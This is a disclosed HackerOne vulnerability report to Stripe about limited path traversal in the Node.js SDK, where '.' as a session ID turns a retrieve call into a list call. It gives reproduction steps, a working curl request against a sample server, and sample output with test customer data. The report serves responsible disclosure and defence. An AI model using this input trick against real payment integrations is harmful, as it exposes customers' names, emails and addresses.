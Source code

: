 # Limited path traversal in Node.js SDK leads to PII disclosure

## Report Details
- **Report ID**: 1575014
- **URL**: https://hackerone.com/reports/1575014
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-05-18T21:15:20.826Z
- **Disclosed**: 2023-10-10T10:00:06.157Z

## Reporter
- **Username**: zerodivisi0n
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: stripe

## Vulnerability Information
## Summary:
It is possible to use `.` and `..` as identifier in all API methods, which leads to calling the parent api method.
Next, I will describe the problem using checkout sessions as an example,  because it is the most basic one. However, other methods are also vulnerable to this problem.
For example, using `.` as checkout session id in [Retrieve a Session](https://stripe.com/docs/api/checkout/sessions/retrieve) method leads to call [List all Checkout Sessions](https://stripe.com/docs/api/checkout/sessions/list) method.
The problem arises because the Node.js http implementation automatically normalizes the path, so request `https://api.stripe.com/v1/checkout/sessions/.` will normalize to `https://api.stripe.com/v1/checkout/sessions/`.
I checked other SDKs and it looks like the problem is only in the Node.js SDK.

## Steps To Reproduce:
For ease of reproduction, let's create a project using [accept-a-payment](https://github.com/stripe-samples/accept-a-payment) sample template.

  1. Register Stripe account and obtain `STRIPE_SECRET_KEY`
  1. Create sample project using Stripe docker cli: `docker run --rm -it -v $(pwd):/samples -w /samples stripe/stripe-cli:latest samples create accept-a-payment`
  1. Choose `prebuilt-checkout-page` integration, `html` client and `node` server.
  1. Create `.env` file in `accept-a-payment/server` directory with contents:
    ```
    STRIPE_SECRET_KEY=xxx
    STATIC_DIR=/app/client
    DOMAIN=http://localhost:4242
    ```
  1. Run another docker container with nodejs: `run -it --rm -v $(pwd)/accept-a-payment:/app -w /app/server -p 4242:4242 node bash`
  1. Install dependencies: `npm install`
  1. Start the server: `node server.js`
  1. Open web page in browser and complete the payment: `http://localhost:4242`
  1. Send curl request in terminal: `curl "http://localhost:4242/checkout-session?sessionId=." | jq` (this request does not require any authentication and returns PII of all successful payments).

Example output:
```json
{                                                                                                                                                                                                                  
  "object": "list",                                                                                                                                                                                                
  "data": [                                                                                                                                                                                                        
    {                                                                                                                                                                                                              
      "id": "cs_test_a14L46PUF4tbXhcFrVU4Zv42kBQD2Hw5TIR6XdNHPJFckllG1Un4MztwlF",                                                                                                                                  
      "object": "checkout.session",                                                                                                                                                                                
      "after_expiration": null,                                                                                                                                                                                    
      "allow_promotion_codes": null,                                                                                                                                                                               
      "amount_subtotal": 500,                                                                                                                                                                                      
      "amount_total": 500,                                                                                                                                                                                         
      "automatic_tax": {                                                                                                                                                                                           
        "enabled": false,                                                                                                                                                                                          
        "status": null                                                                                                                                                                                             
      },                                                                                                                                                                                                           
      "billing_address_collection": null,                                                                                                                                                                          
      "cancel_url": "http://localhost:4242/canceled.html",                                                                                                                                                         
      "client_reference_id": null,                                                                                                                                                                                 
      "consent": null,                                                                                                                                                                                             
      "consent_collection": null,                                                                                                                                                                                  
      "currency": "usd",                                                                                                                                                                                           
      "customer": "cus_LiJwdI9LfI4c9k",                                                                                                                                                                            
      "customer_creation": "always",                                                                                                                                                                               
      "customer_details": {                                                                                                                                                                                        
        "address": {                                                                                     
          "city": null,                                                                                  
          "country": "RU",
          "line1": null,
          "line2": null,
          "postal_code": null,
          "state": null                                                                                  
        },                         
        "email": "zerodivisi0n@wearehackerone.com",
        "name": "BB Tester",        
        "phone": null,       
        "tax_exempt": "none",
        "tax_ids": []   
      }
      "customer_email": null,                                                                                                                                                                                      
      "expires_at": 1652991126,                                                                                                                                                                                    
      "livemode": false,                                                                                                                                                                                           
      "locale": null,                                                                                                                                                                                              
      "metadata": {                                                                                                                                                                                                
      },                                                                                                                                                                                                           
      "mode": "payment",                                                                                                                                                                                           
      "payment_intent": "pi_3L0tE3DrJVF2EnNj1zw13o1n",                                                                                                                                                             
      "payment_link": null,                                                                                                                                                                                        
      "payment_method_options": {                                                                                                                                                                                  
      },                                                                                                                                                                                                           
      "payment_method_types": [                                                                                                                                                                                    
        "card"                                                                                                                                                                                                     
      ],                                                                                                                                                                                                           
      "payment_status": "paid",                                                                                                                                                                                    
      "phone_number_collection": {                                                                                                                                                                                 
        "enabled": false                                                                                                                                                                                           
      },                                                                                                                                                                                                           
      "recovered_from": null,                                                                                                                                                                                      
      "setup_intent": null,                                                                                                                                                                                        
      "shipping": null,                                                                                                                                                                                            
      "shipping_address_collection": null,                                                                                                                                                                         
      "shipping_options": [                                                                                                                                                                                        
                                                                                                                                                                                                                   
      ],                                                                                                                                                                                                           
      "shipping_rate": null,                                                                                                                                                                                       
      "status": "complete",                                                                                                                                                                                        
      "submit_type": null,                                                                                                                                                                                         
      "subscription": null,                                                                                                                                                                                        
      "success_url": "http://localhost:4242/success.html?session_id={CHECKOUT_SESSION_ID}",                                                                                                                        
      "total_details": {                                                                                                                                                                                           
        "amount_discount": 0,                                                                                                                                                                                      
        "amount_shipping": 0,                                                                                                                                                                                      
        "amount_tax": 0                                                                                                                                                                                            
      },                                                                                                                                                                                                           
      "url": null                                                                                                                                                                                                  
    }                                                                                                                                                                                                              
  ],                                                                                                                                                                                                               
  "has_more": false,                                                                                                                                                                                               
  "url": "/v1/checkout/sessions"
}
```

In my example, only one session is returned, but in reality all current user sessions will be returned there.
I understand that this is only sample code and there may be more reliable implementations in production. However, such a sample code is usually used as a reference and I think that protection against this kind of attacks should be at the SDK level.

## Impact

The attacker can periodically call this method and grab PII, such as user's email address, name and address.

## Attachments
No attachments
